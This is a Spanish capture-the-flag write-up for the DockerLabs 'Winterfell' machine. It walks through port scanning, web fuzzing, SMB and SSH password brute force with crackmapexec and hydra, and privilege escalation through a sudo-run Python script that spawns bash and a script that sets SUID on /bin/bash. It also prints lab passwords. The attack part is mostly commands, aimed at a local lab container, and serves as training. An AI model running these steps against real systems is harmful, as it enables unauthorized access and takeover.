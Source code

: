 # Winterfell

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Winterfell`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

Tenemos 4 puertos abiertos.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_1.jpg)     

Vamos a echar un vistazo a lo que corre en el puerto 80.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_2.jpg)  

Bueno, a primera vista no hay nada de interesante, a parte un posible nombre de usuario, **jon**.  
Probamos a hacer un poco de fuzzing web a la busqueda de directorios ocultos.  
Para ellos utilizaremos la herramienta **wfuzz**.  

`sudo wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://172.17.0.2/FUZZ`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_3.jpg)   

Bien, descubrimos un directorio que se llama "dragon".  
Vamos a ver que hay en esta página.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_4.jpg)    

Si abrimos el fichero nombrado "EpisodiosT1" vemos un listado.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_5.jpg)   

Podemos intentar a copiar este listado en un fichero que llamaremos pass.txt y utilizarlo como nuestro diccionario para ataque de fuerza bruta.  
Antes pero, debemos intentar enumerar los usuarios.  
Para ello usaremos la herramienta **enum4linux**.  
Ejecutamos el comando `sudo enum4linux -a 172.17.0.2` y vemos que nos saca 3 usuarios.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_6.jpg)   

Ahora podemos intentar utilizar el diccionario que nos hemos creado anteriormente e intentar un ataque de fuerza bruta contra smb.  
Utilizaremos la herramienta **crackmapexec** y ejecutaremos el comando:  

`sudo crackmapexec smb 172.17.0.2 -u 'jon' -p pass.txt`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_7.jpg)     

Perfecto, tenemos una contraseña valida.   
Ahora intentaremos enumerar los recursos a los que podemos acceder.   

`sudo smbmap -H 172.17.0.2 -u jon -p seacercaelinvierno`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_8.jpg)   

Ahora nos conectamos al recurso shared para ver si hay algo interesante.   

`sudo smbclient //172.17.0.2/shared -U jon`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_9.jpg)    

Nos descargamos el fichero con el comando `get`.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_10.jpg)      

Si abrimos el ficheros vemos que hay una valiosa información.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_11.jpg)    

Intentamos decriptarla con este comando.  

`echo 'aGlqb2RlbGFuaXN0ZXI=' | base64 -d`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_12.jpg)    

Ahora que tenemos una contraseña podemos crearnos un diccionario con los 3 nombres de usuarios (que llamaremos **user.txt**) que hemos descubierto anteriormente y realizar un ataque de fuerza bruta.  
Hecho esto usamoas la herramienta hydra con el comando:  

`sudo hydra -L users.txt -P pass.txt ssh://172.17.0.2 `  

y listo, obtenemos una combinación valida.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_13.jpg)     

Una vez que nos logeamos con el usuario jon le damos al comando `sudo -l` para intentar escalar privilegios.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_14.jpg)     

Lo que podemos hacer es borrar el fichero **.mensaje.py** y volver a crearlo insertando este código:  

```
import os    
os.system("/bin/bash")
```

Hecho esto si le damos al comando:  

`sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py`  

ya podemos convertirnos en el usuario **aria**.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_15.jpg)      

Miramos con `sudo -l` si podemos aprovechar de algun binario para escarlnos a root.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_16.jpg)        

Miramos a ver si en la home del usuario daenerys hay algo que nos puede servir.  
Para ello damos el comando:  

`sudo -u daenerys /usr/bin/ls /home/daenerys/`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_17.jpg)      

Bien, ahora lo leemos con el comando:  

`sudo -u daenerys /usr/bin/cat /home/daenerys/mensajeParaJon`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_18.jpg)     

Perfecto!  
Ahora tenemos la contraseña del usuario daenerys.  
Entramos y le damos otra vez al comando `sudo -l`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_19.jpg)    

Vemos que no tenemos permisos para editar el fichero con nano y tampoco podemos eliminarlo. 
Lo que intentaremos hacer es crear uno script oneliner e inviarselo con echo.  
Digitaremos el siguente comando:  

`echo -e '#!/bin/bash \n chmod u+s /bin/bash' > .shell.sh`  

Si abrimos el fichero vemos que se ha enviado todo correctamente.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_20.jpg)    

Ahora ejecutaremos el comando:  

`sudo /usr/bin/bash /home/daenerys/.secret/.shell.sh`  

Y si le damos a `bash -p`...listo!
Ya somos root!  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_21.jpg)    











